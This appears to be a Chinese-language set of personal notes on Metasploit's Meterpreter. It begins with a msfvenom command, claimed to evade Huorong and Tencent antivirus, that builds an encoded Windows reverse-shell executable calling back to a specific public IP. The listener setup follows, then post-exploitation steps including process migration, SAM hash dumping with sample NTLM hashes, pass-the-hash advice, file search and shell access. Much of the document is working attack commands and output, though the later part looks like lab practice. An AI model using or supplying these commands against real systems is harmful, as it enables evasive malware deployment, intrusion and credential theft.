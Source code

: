 ```yaml
---
icon: pen-to-square
date: 2025-04-03
tags: 
title: "Metasploit: Meterpreter"
category:
  - 项目
---
```

## 简易免杀马生成
生成免杀马，可绕过火绒和腾讯电脑管家
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=120.46.10.222 LPORT=9831 -b "\x00" -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f exe -o ./shell4.exe
```

msf监听
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 120.46.10.222
msf6 exploit(multi/handler) > set LPORT 9831
msf6 exploit(multi/handler) > run
```
注意设置正确的payload
## 其他命令
```bash
sessions
```
查看连接的Meerpreter会话

```bash
sessions -i [id]
```
连接sessions



---



```shell-session
msfvenom --list payloads | grep meterpreter
```
该列表将显示适用于以下平台的 Meterpreter 版本;

- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

您决定使用哪个版本的 Meterpreter 主要基于三个因素;

- 目标作系统（目标作系统是 Linux 还是 Windows？它是 Mac 设备吗？是安卓手机吗？等）
- 目标系统上可用的组件（是否安装了 Python？这是 PHP 网站吗？等）
- 您可以与目标系统建立的网络连接类型（它们是否允许原始 TCP 连接？可以只进行 HTTPS 反向连接吗？IPv6 地址的监控不如 IPv4 地址严密吗？等）


## Meterpreter后渗透
`getuid`显示Meterpreter当前用户
```shell-session
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
ps会列出正在运行的进程。PID会提供将METERPRETER迁移到另一个进程所需的PID信息

### 进程迁移
meterpreter存在于内存中，依附于其他进程，因此可以将此进程迁移到其他进程
输入迁移命令后接目标进程的PID可以迁移进程
```shell-session
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
```

**哈希 Dump**

`hashdump`命令将列出SAM数据库的内容。SAM(安全帐户管理器)数据库在Windows系统上存储用户密码。这些密码以 NTLM(新技术 LAN Manager) 格式存储。

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
虽然在数学上无法“破解”这些哈希,NTLM但您仍然可以使用在线NTLM数据库或彩虹表攻击发现清晰文本密码。这些哈希也可以用于Pass-the-Hash攻击,以验证这些用户可以访问同一网络的其他系统。

**搜索**
search命令用于搜索目标用户中的文件如下
```shell-session
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
```

**shell**
shell命令可以启动shell，按下 CTRL+Z 将帮助您返回到 Meterpreter shell。
```shell-session
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
```


